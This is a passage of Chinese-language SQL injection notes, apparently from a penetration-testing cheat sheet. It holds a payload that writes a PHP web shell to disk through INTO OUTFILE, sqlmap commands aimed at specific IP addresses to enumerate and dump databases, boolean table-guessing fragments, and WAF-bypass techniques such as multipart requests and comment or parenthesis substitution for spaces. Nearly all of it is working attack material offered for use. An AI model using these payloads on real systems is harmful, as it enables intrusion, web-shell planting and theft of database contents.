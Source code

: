 还有 `get_lock()`，



##### 写入后门

前提：开启 secure_file_priv，并且具有写的权限

```sql
select 1,2,'<?php system($_GET[1])?>' into outfile 'H:\\a.php'--%20
```



**POST 登录框 sqlmap跑法**

```shell
sqlmap -u "http://47.96.118.255:33066/" --forms --dbs
sqlmap -u "http://47.96.118.255:33066/" --forms -D news --tables
sqlmap -u "http://47.96.118.255:33066/" --forms -D news -T secret_table --dump
```

**自定义注入位置，如 XFF 注入**

```shell
sqlmap -u "http://192.168.118.142/" --headers="X-Forwarded-For: *" --banner
```

**猜解数据表**

找到注入点后，进行猜解

```sql
and exists(select * from user)  -- 表存在页面就会返回正常，否则报错
and exists(select * from amdin)
```

### Bypass

#### 字段数

```
mysql> select * from users limit 1,1 into @,@;
ERROR 1222 (21000): The used SELECT statements have a different number of columns
mysql> select * from users limit 1,1 into @,@,@;
Query OK, 1 row affected (0.00 sec)
```



multipart 请求绕过，在 POST 请求中添加一个上传文件，绕过了绝大多数 WAF

**检测被过滤的关键词：**

+ fuzz 一波 ASCII 码（特殊字符）
+ fuzz sql 所有关键词
+ id = 1 ^ (length(‘xxx’)=3)

#### 空格

- 使用注释绕过，/**/ （information 中 o/\*\*/r 不能这么搞）

- 使用括号绕过，括号可以用来包围子查询，任何计算结果的语句都可以使用 ( ) 包围
